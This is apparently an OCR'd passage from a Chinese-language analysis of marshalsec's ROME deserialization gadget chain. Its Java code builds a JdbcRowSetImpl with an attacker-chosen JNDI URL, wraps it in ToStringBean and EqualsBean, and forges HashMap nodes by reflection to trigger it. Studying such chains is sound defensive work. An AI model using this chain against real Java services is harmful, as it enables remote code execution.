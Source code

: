  - 在`makeJNDIRowSet`中, 先创建`JdbcRowSetImpl`实例, 接着调用`setDataSourceName`方法对实例的`dataSource`赋值为输入的`jndiUrl`变量, 接着调用`setMatchColumn`方法, 将`JdbcRowSetImpl`实例的`strMatchColumn`成员变量设置为`foo`, 最后将`JdbcRowSetImpl`实例的`listeners`变量设置为`null`.

```java
public static JdbcRowSetImpl makeJNDIRowSet ( String jndiUrl ) throws Exception {
    JdbcRowSetImpl rs = new JdbcRowSetImpl();
    rs.setDataSourceName(jndiUrl);
    rs.setMatchColumn("foo");
    Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);
    return rs;
}
```

 - 接着跟进`marshalsec`中的`Rome#makeROMEAllPropertyTrigger`方法, 实例化`ToStringBean`对象, 将`JdbcRowSetImpl.class`和`JdbcRowSetImpl`实例传递到构造方法中, 接着实例化`EqualsBean`对象将`ToStringBean.class`和`ToStringBean`的实例化对象进行传递, 获取到名为`root`的实例化对象. 接着调用`uf.makeHashCodeTrigger(root)`.

```java
default <T> Object makeROMEAllPropertyTrigger ( UtilFactory uf, Class<T> type, T obj ) throws Exception {
    ToStringBean item = new ToStringBean(type, obj);
    EqualsBean root = new EqualsBean(ToStringBean.class, item);
    return uf.makeHashCodeTrigger(root);
}
```

 - 接着跟进到`UtilFactory#makeHashCodeTrigger`方法, 该方法会传递`2`个同样的对象到`JDKUtil#makeMap`方法中.

```java
default Object makeHashCodeTrigger ( Object o1 ) throws Exception {
    return JDKUtil.makeMap(o1, o1);
}
```

 - 跟进`JDKUtil#makeMap`方法, 先实例化`HashMap`并将长度设置为`2`, 接着反射获取`java.util.HashMap$Node`或`java.util.HashMap$Entry`, 再实例化一个对象并且设置长度为`2`, 并且第一个数据插入值为`java.util.HashMap$Node`的实例化对象, 该对象在实例化的时候传递`4`个值, 第一个值为`0`, 第二和三个值为刚刚获取并传递进来的`EqualsBean`实例化对象, 第四个为`null`. 插入的第二个数据和第一个一样, 接着通过反射设置`s`这个`hashmap`中`table`的值为反射创建的`java.util.HashMap$Node`对象.

```java
public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {
    HashMap<Object, Object> s = new HashMap<>();
    Reflections.setFieldValue(s, "size", 2);
    Class<?> nodeC;
    try {
        nodeC = Class.forName("java.util.HashMap$Node");
    }
    catch ( ClassNotFoundException e ) {
        nodeC = Class.forName("java.util.HashMap$Entry");
    }
    Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
    nodeCons.setAccessible(true);

    Object tbl = Array.newInstance(nodeC, 2);
    Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
    Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
    Reflections.setFieldValue(s, "table", tbl);
    return s;
}
```
